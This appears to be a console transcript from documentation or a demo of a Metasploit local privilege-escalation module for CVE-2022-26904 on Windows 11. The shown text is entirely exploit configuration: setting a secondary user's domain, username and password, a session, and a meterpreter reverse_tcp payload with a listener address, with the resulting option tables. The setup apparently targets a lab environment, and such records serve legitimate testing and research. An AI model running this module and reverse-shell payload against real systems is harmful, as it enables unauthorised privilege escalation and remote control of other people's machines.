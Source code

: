 ```
   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   LOGINDOMAIN    .                yes       Domain that the LOGINUSER belongs to. Ensures we log into the right domain.
   LOGINPASSWORD                   yes       Password for the secondary normal privileged user to log in as
   LOGINUSER                       yes       Username of the secondary normal privileged user to log in as. Cannot be the same a
                                             s the current user!
   SESSION                         yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 11


msf6 exploit(windows/local/cve_2022_26904_superprofile) > set LOGINDOMAIN TESTINGDOMAIN
LOGINDOMAIN => TESTINGDOMAIN
msf6 exploit(windows/local/cve_2022_26904_superprofile) > set LOGINUSER normal
LOGINUSER => normal
msf6 exploit(windows/local/cve_2022_26904_superprofile) > set LOGINPASSWORD normal1
LOGINPASSWORD => normal1
msf6 exploit(windows/local/cve_2022_26904_superprofile) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2022_26904_superprofile) > set LHOST 172.1
set LHOST 172.17.0.1    set LHOST 172.18.0.1    set LHOST 172.19.70.15
msf6 exploit(windows/local/cve_2022_26904_superprofile) > set LHOST 172.19.70.15
LHOST => 172.19.70.15
msf6 exploit(windows/local/cve_2022_26904_superprofile) > show options

Module options (exploit/windows/local/cve_2022_26904_superprofile):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   LOGINDOMAIN    TESTINGDOMAIN    yes       Domain that the LOGINUSER belongs to. Ensures we log into the right domain.
   LOGINPASSWORD  normal1          yes       Password for the secondary normal privileged user to log in as
   LOGINUSER      normal           yes       Username of the secondary normal privileged user to log in as. Cannot be the same a
                                             s the current user!
   SESSION        1                yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.19.70.15     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```